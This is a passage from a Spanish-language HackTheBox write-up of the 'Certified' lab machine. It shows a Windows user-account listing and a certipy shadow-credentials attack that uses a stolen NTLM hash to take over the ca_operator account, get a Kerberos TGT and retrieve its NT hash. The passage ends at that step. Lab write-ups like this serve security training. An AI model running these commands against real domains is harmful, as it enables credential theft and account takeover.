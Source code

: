 ```bash
Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/Certified/3.png">
</p>

- Podemos usar el mismo ataque que hicimos para obtener el hash `NTLM` del usuario.

```bash
❯ certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0fed66bf-a50e-62eb-a453-1e4210041a67'
[*] Adding Key Credential with device ID '0fed66bf-a50e-62eb-a453-1e4210041a67' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID '0fed66bf-a50e-62eb-a453-1e4210041a67' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
```